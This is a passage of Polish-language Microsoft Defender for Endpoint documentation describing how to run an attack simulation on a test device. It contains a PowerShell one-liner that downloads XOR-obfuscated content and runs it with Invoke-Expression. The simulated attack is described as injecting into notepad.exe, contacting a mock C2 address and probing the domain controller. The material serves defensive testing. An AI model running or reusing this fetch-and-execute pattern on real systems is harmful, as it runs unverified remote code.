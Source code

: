    1. Urządzenie testowe jest przyłączone do domeny testowej.

   1. [Włącz Program antywirusowy Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Jeśli masz problem z włączeniem Program antywirusowy Windows Defender, zobacz ten [temat rozwiązywania problemów](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Sprawdź, czy urządzenie testowe [jest wnoszone do programu Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Jeśli korzystasz z istniejącej dzierżawy i implementujesz grupy urządzeń, utwórz dedykowaną grupę urządzeń dla urządzenia testowego i wypychaj ją na najwyższy poziom w interfejsie użytkownika konfiguracji.

## <a name="run-the-attack-scenario-simulation"></a>Run the attack scenario simulation

Aby uruchomić symulację scenariusza ataków:

1. Zaloguj się na urządzeniu testowym za pomocą testowego konta użytkownika.

2. Otwórz okno Windows PowerShell na urządzeniu testowym.

3. Skopiuj następujący skrypt symulowania:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Po otwarciu tego dokumentu w przeglądarce internetowej mogą wystąpić problemy z kopiowaniem pełnego tekstu bez utraty określonych znaków lub wprowadzeniem dodatkowych podziałów wiersza. Pobierz ten dokument i otwórz go w programie Adobe Reader.

4. Po wyświetleniu monitu wklej i uruchom skopiowany skrypt.

> [!NOTE]
> Jeśli korzystasz z programu PowerShell przy użyciu protokołu pulpitu zdalnego (RDP), użyj polecenia Wpisz tekst schowka w kliencie RDP, ponieważ metoda **klawisza dostępu CTRL-V** lub kliknięcia prawym przyciskiem myszy może nie działać. Ostatnie wersje programu PowerShell czasami również nie akceptują tej metody. Najpierw trzeba skopiować program Notatnik w pamięci, skopiować go na maszynę wirtualną, a następnie wkleić do programu PowerShell.

Kilka sekund później zostanie <i>notepad.exe</i> . Symulowany kod ataków zostanie wsadowany w notepad.exe. Nie otwieraj automatycznie wygenerowanego Notatnik, aby było pełne środowisko scenariusza.

Symulowany kod ataków spróbuje przekazać do zewnętrznego adresu IP (simulując serwer C2), a następnie podejmie próbę rozpoznania kontrolera domeny za pośrednictwem protokołu SMB.
